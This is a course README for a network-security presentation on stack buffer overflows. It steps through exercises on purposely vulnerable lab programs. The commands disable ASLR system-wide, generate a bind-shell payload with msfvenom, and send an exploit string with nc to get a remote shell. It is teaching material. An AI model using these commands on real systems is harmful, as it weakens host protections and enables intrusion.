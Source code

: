 # NetworkSecurityPresentation
Presentation for the NetSec course based on Buffer overflow exploit

# Requisite
    
## disable memory randomization, enable core dumps
```bash
    cat /proc/sys/kernel/randomize_va_space
    sudo bash -c 'echo "kernel.randomize_va_space = 0" >> /etc/sysctl.conf'
    sudo sysctl -p
    cat /proc/sys/kernel/randomize_va_space
    # verify "0"
    ulimit -c unlimited
    ulimit -c
    # verify "unlimited"
```
# Test Exercise

This test exercise is used to explain how memory works and how data is managed into the stack.

## Compilation
```bash
    cd /path/to/repo/src
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g exercise_test.c -o exercise_test
```

## Execution
```bash
    cd /path/to/repo/src
    gdb exercise_test
```
# First Exercise

The first exercise consists in overwrite a variable used to grant permission to a user using the `strcpy()` vulnerable function

## Compilation
```bash
    cd /path/to/repo/src
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g exercise1.c -o exercise1
```

## Execution
```bash
    cd /path/to/repo/src
    ./exercise input
```
# Second Exercise

The second exercise consists in overwrite the `%eip` register of the stack in order to redirect the program to a chosen function using the `strcpy()` vulnerable function and the `gdb` debugger in order to find out the right number of junk chars to fill up the stack

## Compilation
```bash
    cd /path/to/repo/src
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g exercise2.c -o exercise2
```

## Find out the function register
```bash
    cd /path/to/repo/src
    objdump -d exercise2 | grep <function_name>
```
## Execution
```bash
    cd /path/to/repo/src
    ./exercise $(python2 -c 'print"A"*<num_char> + "function register"')
```
    keep in mind that the intel cpu are Little Endian so pay attention when insert the register
# Third Exercise
The third exercise consists in overwrite the `%eip` register of the stack and fill up the buffer with a shellcode in order to spawn a remote shell possibly with root privileges
## Compilation server
```bash
    cd /path/to/repo/src
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g p4-server.c -o p4-server
```

## Create a shellcode using msfvenom
```bash
    msfvenom -p linux/x86/shell_bind_tcp AppendExit=true -e x86/alpha_mixed -f python
```
## Execution server
```bash
    cd /path/to/repo/src
    ./p4-server
```

## Execution Client
```bash
    ./generate_malicious_string > string
    nc <server_port> 4001 < string 
    to generate the malicious string use the buffer output of the previous command and the %eip register found using the debugger

    nc <server_port> 4444 
    here's your remote shell :)
```
